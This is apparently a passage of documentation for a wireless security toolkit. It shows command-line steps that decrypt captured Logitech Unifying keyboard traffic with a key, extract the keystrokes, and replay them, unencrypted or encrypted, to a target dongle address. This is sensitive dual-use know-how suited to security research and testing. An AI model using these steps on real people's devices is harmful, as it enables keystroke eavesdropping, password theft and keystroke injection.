    [ raw=True, decrypted=True, timestamp=56916, channel=0, is_crc_valid=True, address=a8:41:9e:b5:0f ]
    <ESB_Hdr  preamble=0xaa address_length=5 address=a8:41:9e:b5:0f payload_length=22 pid=2 no_ack=0 padding=0 valid_crc=yes crc=0xd893 |<Logitech_Unifying_Hdr  dev_index=0x0 frame_type=0xd3 checksum=0xb1 |<Logitech_Encrypted_Keystroke_Payload  hid_data='' unknown=201 aes_counter=3087930537 unused='' |>>>
    [...]

Extracting the keystrokes is as simple as combining ``wplay`` with ``wanalyze``:

.. code-block:: text

    $ wplay --flush logitech_encrypted_traffic.pcap -d -k 02bea8b5ef61037e87882e4daebf403b | wanalyze
    [✓] keystroke → completed
      - key:  a

    [✓] keystroke → completed
      - key:  b

    [✓] keystroke → completed
      - key:  c

    [✓] keystroke → completed
      - key:  d

    [✓] keystroke → completed
      - key:  e
    [...]

Output can be formatted easily, by selecting the key field of the *"keystroke"* analyzer:

.. code-block:: text

    $ wplay --flush logitech_encrypted_traffic.pcap -d -k 02bea8b5ef61037e87882e4daebf403b | wanalyze keystroke.key
    a
    b
    c
    d
    e
    f
    g
    h


Similarly to mouse traffic, you can extract this output in a file:

.. code-block:: text

    $ wplay --flush logitech_encrypted_traffic.pcap -d -k 02bea8b5ef61037e87882e4daebf403b | wanalyze keystroke.key > capture.keyboard

And replay it using ``wuni-keyboard`` as unencrypted traffic:

.. code-block:: text

    $ cat capture.keyboard | wuni-keyboard -i uart0 -a ca:e9:06:ec:a4 -l fr
    a
    b
    c
    d
    e
    f
    g
    h

Or as encrypted traffic by providing the key:

.. code-block:: text

    $ cat capture.keyboard | wuni-keyboard -i uart0 -a ca:e9:06:ec:a4 -l fr -k 02bea8b5ef61037e87882e4daebf403b
    a
    b
    c
    d
    e
    f
    g
    h
